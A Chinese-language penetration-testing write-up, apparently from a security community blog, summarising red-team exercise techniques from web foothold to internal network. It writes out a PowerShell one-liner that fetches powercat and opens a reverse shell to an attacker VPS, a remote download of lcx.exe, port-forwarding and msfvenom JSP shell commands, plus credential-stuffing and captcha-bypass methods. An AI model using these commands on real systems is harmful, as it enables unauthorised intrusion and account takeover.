从外网到内网的渗透姿势分享
现在这段时间是全员 hw 时期，刚好前几天也有幸参与了某个地方的 hw 行动，作为攻击方，这里就简单总结一下最近挖洞的思路吧。因为可能怕涉及到敏感的东西，这里就有的地方不会细说了。
因为本人比较菜，所以只能做一点比较基础的总结，大佬们请忽略吧...
渗透的大体过程
整个渗透测试的流程就是通过信息收，集到外网的 web 漏洞挖掘，来获取一个 webshell ，通过这个 shell 进一步利用来打进内网，进行内网渗透、域渗透，最终获取域控权限的一个过程。
从外网挖掘漏洞的一些方法
常见的渗透思路这里就不介绍了，也比较常见，这里主要想纪录一下自己在测试中用到的方法。
拿到相应的资产，解析完 ip 段或者网址之后，直接上大型扫描器！直接上大型扫描器！直接上大型扫描器！对你没有听错。

需要检测 web 漏洞的话，需要对相应的 IP 进行端口扫描，端口扫描的话用御剑高速端口扫描工具这个工具，效果非常棒！把扫描的速度越调低结果就会越精确。
扫描完成之后可以导出相应的扫描结果，得到相应的 IP 结果之后，再丢进 AWVS 直接使用脚本批量扫描，或者批量弱口令爆破就行了。总之套路就是需要注意批量！批量！批量！就行了。
这是上次批量扫了两天的结果，还是很可观，还是混了不少洞的啊哈哈哈哈。不过是否属于资产范围内的就需要自己验证了。

从外网撕开口子的常见操作
框架、中间件漏洞
最常见的就是 Struts2、weblogic 等已有的 RCE 漏洞。
检测的方法就是使用现有的工具进行批量扫描，也可以自己写一个脚本进行指纹探测之后再检测漏洞。或者丢进 Nessus 或者 AWVS 中一般都可以自己检测出来。
工具的话网上也比较多了，推荐使用 .net 写的小工具，网络发包速度快，也很稳定。
检测 S2 漏洞的话推荐使用Struts2漏洞检查工具2018版这个工具，可以批量！贼爽！
撞库漏洞
主要是针对于一些员工系统和登录系统、信息查询系统、OA 系统进行撞库，在没有验证码的登录系统中屡试不爽。
测试方法
无验证码的情况
首先这些系统一般外部只有一个登录框，先查看有无验证码，没有验证码直接导入中国常见用户名字典，密码为弱口令字典（或者直接就设置成 123456）。

或者密码可以改成用户名+数字的形式，例如用户名是 zhangsan，可以尝试每个用户对应的密码字典为 zhangsan12、zhangsan123 这种类型。
若是邮箱登录，则需要先收集一下系统的邮箱后缀，常见的收集方法有 google hack、专门收集目标站邮箱的查询网址。
拿到了后缀之后，使用用户拼音+邮箱后缀的方式进行爆破。注意这里有两种方式。
用户名规则使用用户全拼音。例如 zhangsan@abc.com。
用户名规则使用姓的全拼+名的缩写。例如 zhangs@abc.com，wangjk@abc.com。
总的来说，第二种方式比较常见，也可以两种都试试。
有验证码的情况
这里就说下有验证码，但是验证码可以绕过的情况。
如下面的情况，直接把 cookie 删除之后就不会验证 randcode 的值了，可能这代码写的也比较奇葩吧

弱口令漏洞
公网数据库爆破
web 登录系统的弱口令爆破就不说了，有一种思路是直接对公网的 IP 地址的数据库弱口令爆破，个人感觉还是比较爽的。
因为资产给的有时候是整几个网段，所以爆破的话能够成功的概率也是挺大的。
这里推荐使用超级弱口令检查工具这个工具，在 github 上也可以找到。勾选上所有的数据库的选项，把用户名和密码字典导入，勾选上扫描端口。
运气好的话还是可以出结果的。

内网数据库爆破
这里推荐使用 F-Scrack 和 DBScanner 工具，在 github 上面都有，进入内网之后弱口令比较多，扫描爆破的效果还是不错的。
从 webshell 到内网
从 sql 注入到内网渗透
直接举例。
拿到一个 mssql 注入，并且可以开启 xp_cmdshell 设置执行任意命令的情况下（--os-shell）。如果注入是属于回显、报错注入的话，直接执行命令就没有太大的限制，如果是延时注入的话，要等很长时间才能回显，这就比较恶心了。
举个例子，像下面这种注入的话就是属于无页面回显，只能靠时间盲注才能出数据，根据时间盲注是一个字符一个字符的出数据，速度就会慢很多，而且有时候还不稳定。

解决方法：
在 sqlmap 下获取 xp_cmdshell 之后，直接执行：
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 123.207.xx.xx -p 9999 -e cmd在 vps 上监听一个 9999 端口，等着弹回 shell （system32 下的 cmd）就行了。然后拿到 shell 之后继续使用 powershell 下载远程木马或者端口到靶机上就行了。

powershell 下载远程文件命令：
下载 lcx 到本地进行 3389 端口转发
powershell "$c=new-Object \"System.Net.WebClient\";$c.DownloadFile(\"http://123.207.xx.xx:81/static/lcx.exe\",\"C:/Users/Administrator/Desktop/lcx.exe\");";第二个参数填入保存到的路径即可和保存的文件名即可。
若公网跳板机是 linux 的话，可以使用 linux 版本的 lcx，也就是 portmap
用法：
./portmap -m 2 -p1 7777 -h2 211.141.xx.xx -p2 9999这里的 h2 是远程服务的 ip 地址。
从 S2-045 到内网渗透
检测 S2 的方法就不说了，直接工具一把梭。这里推荐使用 "Struts2漏洞检查工具2018版" 这个工具，可以批量导入 url ，效率还是可以的。但是能不能出洞主要还是看运气看人品哈哈哈。

简单检测 S2 漏洞的方法：看 Uri 的后缀是否为 .do 或者 .action，是的话直接丢进去工具验证。
获取 S2 之后的操作步骤
第一个方法就是上面说的，有 powershell 的话直接一把梭 getshell。或者可以配合 Empire 生成一个 powershell 的 payload 直接运行。但是这种方法有时候因为种种原因会不太稳定。
第二种方法可以用上面那个工具进行文件上传传小马上去，接着用小马客户端传大马就行了，这是常规套路。

Q：拿到大马之后要干啥？
A：当然要进一步渗透了，内网渗透、域渗透。
Q: 但是具体怎么做？
A: 先 ipconfig 看看是不是内网 IP，如果是的话就传个 msf 马上去进一步操作，或者用 lcx 或者 ew 把 3389 转发到公网。
Q: 但是要怎么传呢？直接使用大马的上传功能吗？
A: 不行。因为 jsp 的上传只支持可见字符字节码的上传，二进制数据没办法直接上传。
Q: 那该如何操作？
A: 我这里是用 Base64 编码的方式，先把 exe 文件整个编码，之后构造一个 jsp 的上传点，在上传完成之后在网站目录下解码即可，解码之后就释放到网站目录下了。
参考：https://blog.51cto.com/0x007/1204440
在实战环境下遇到的几乎都是 jsp 的站点，php 的站非常少，所以需要平时多积累多练习一下对 jsp 站点的渗透
从文件上传 getshell 到内网
测试过程遇到一个比较奇葩的文件上传漏洞，发生在后台用户头像上传处，可以抓包直接修改上传的文件后缀为 jsp 文件，就可以直接进行上传，无任何验证，且上传完成后还会返回给你整个马子的路径。

可以直接上传木马的话，就可以直接上大马或者用 msf 直接生成一个 jsp 马（msfvenom）。
java/jsp_shell_bind_tcp // 用于本地没有外网 IP 或者远程的靶机无法外连的情况
java/jsp_shell_reverse_tcp // 用于本地有公网 IP 的情况将生成的 payload 直接通过文件上传上去，接着拿到路径直接访问即可，在 msf 里可以升级到 meterpreter 之后就可以为所欲为了。
可能会遇到的一些问题
拿到 shell，将 3389 端口转发出来之后，尝试连接发现出现问题，估计是限制了我这边的 IP 访问。

解决方法：添加注册表 AllowEncryptionOracle 项即可。
参考：https://www.cnblogs.com/lindajia/p/9021082.html
一条命令直接解决（需要在 system32 目录下的 cmd 中执行）：
REG add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System\CredSSP\Parameters /v AllowEncryptionOracle /t REG_DWORD /d 2 /f.将 msf 代理进内网
直接使用命令：
proxychains msfconsole或者在 set payload 之后，执行：
set proxies socks5:192.168.0.1:1080.拿到一个 shell 之后分辨是否是内/外网 IP
如下图的情况就说明他只有内网 IP，没有公网 IP，也就是这个机子是用网线接在路由器/交换机上的。我们能访问到他的 80 端口的服务是因为在交换机/路由器上做了端口映射。

在网络映射中是这样表示的：

所以这时候你一般就没有办法直接连接到他的 3389 端口，因为他在内网里所以就只能使用端口转发了。
如果存在外网 IP 的话显示的就是外网 IP。有时候也会遇到既有公网 IP 也有内网 IP 的情况下。
总结
这里只是总结一下在这期间学到的东西，主要还是要搞进内网得分才高，所以渗透的目标还是要盯着内网，总的来说自己还是太菜了，需要继续努力。

作者：H4lo
来源：先知社区
如有侵权，请联系删除